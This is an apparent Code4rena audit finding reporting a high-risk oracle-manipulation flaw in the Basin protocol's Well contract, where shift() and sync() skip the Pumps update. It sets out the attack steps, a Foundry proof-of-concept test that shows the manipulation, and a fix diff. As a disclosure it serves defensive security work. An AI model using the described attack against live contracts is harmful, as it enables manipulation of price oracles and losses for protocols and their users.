 ## Tags

- bug
- 3 (High Risk)
- primary issue
- selected for report
- sponsor confirmed
- H-01

# [Pumps are not updated in the shift() and sync() functions, allowing oracle manipulation](https://github.com/code-423n4/2023-07-basin-findings/issues/136) 

# Lines of code

https://github.com/code-423n4/2023-07-basin/blob/9403cf973e95ef7219622dbbe2a08396af90b64c/src/Well.sol#L352-L377
https://github.com/code-423n4/2023-07-basin/blob/9403cf973e95ef7219622dbbe2a08396af90b64c/src/Well.sol#L590-L598


# Vulnerability details

## Vulnerability details

The `Wall` contract mandates that the `Pumps` should be updated with the previous block's `reserves` in case `reserves` are changed in the current block to reflect the price change accurately.

However, this doesn't happen in the `shift()` and `sync()` functions, providing an opportunity for any user to manipulate the `reserves` in the current block before updating the `Pumps` with new manipulated `reserves` values.

## Impact

The `Pumps` (oracles) can be manipulated. This can affect any contract/protocol that utilizes `Pumps` as on-chain oracles.

## Proof of Concept

1. A malicious user performs a `shift()` operation to update `reserve`s to desired amounts in the current block, thereby overriding the `reserves` from the previous block.
2. The user performs `swapFrom()/swapTo()` operations to extract back the funds used in the `shift()` function. As a result, the attacker is not affected by any arbitration as pool `reserves` revert back to the original state.
3. The `swapFrom()/swapTo()` operations trigger the `Pumps` update with invalid `reserves`, resulting in oracle manipulation.

Note: The `sync()` function can also manipulate `reserves` in the current block, but it's less useful than `shift()` from an attacker's perspective.

## PoC Tests

This test illustrates how to use `shift()` to manipulate `Pumps` data.

Create `test/pumps/Pump.Manipulation.t.sol` and run `forge test --match-test manipulatePump`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import {TestHelper, Call} from "../TestHelper.sol";
import {MultiFlowPump} from "src/pumps/MultiFlowPump.sol";
import {from18} from "test/pumps/PumpHelpers.sol";

contract PumpManipulationTest is TestHelper {
    MultiFlowPump pump;

    function setUp() public {
        pump = new MultiFlowPump(
            from18(0.5e18), // cap reserves if changed +/- 50% per block
            from18(0.5e18), // cap reserves if changed +/- 50% per block
            12, // block time
            from18(0.9e18) // ema alpha
        );

        Call[] memory _pumps = new Call[](1);
        _pumps[0].target = address(pump);
        _pumps[0].data = new bytes(0);

        setupWell(2,_pumps);
    }

    function test_manipulatePump() public prank(user) {
        uint256 amountIn = 1 * 1e18;

        // 1. equal swaps, reserves should be unchanged
        uint256 amountOut = well.swapFrom(tokens[0], tokens[1], amountIn, 0, user, type(uint256).max);
        well.swapFrom(tokens[1], tokens[0], amountOut, 0, user, type(uint256).max);

        uint256[] memory lastReserves = pump.readLastReserves(address(well));
        assertApproxEqAbs(lastReserves[0], 1000 * 1e18, 1);
        assertApproxEqAbs(lastReserves[1], 1000 * 1e18, 1);

        // 2. equal shift + swap, reserves should be unchanged (but are different)
        increaseTime(120);
        
        tokens[0].transfer(address(well), amountIn);
        amountOut = well.shift(tokens[1], 0, user);
        well.swapFrom(tokens[1], tokens[0], amountOut, 0, user, type(uint256).max);

        lastReserves = pump.readLastReserves(address(well));
        assertApproxEqAbs(lastReserves[0], 1000 * 1e18, 1);
        assertApproxEqAbs(lastReserves[1], 1000 * 1e18, 1);
    }
}
```

## Tools Used

Manual review, Foundry

## Recommended Mitigation Steps

Update `Pumps` in the `shift()` and `sync()` function.

```diff
    function shift(
        IERC20 tokenOut,
        uint256 minAmountOut,
        address recipient
    ) external nonReentrant returns (uint256 amountOut) {
        IERC20[] memory _tokens = tokens();
-       uint256[] memory reserves = new uint256[](_tokens.length);
+       uint256[] memory reserves = _updatePumps(_tokens.length);
```

```diff
    function sync() external nonReentrant {
        IERC20[] memory _tokens = tokens();
-       uint256[] memory reserves = new uint256[](_tokens.length);
+       uint256[] memory reserves = _updatePumps(_tokens.length);
```


## Assessed type

Oracle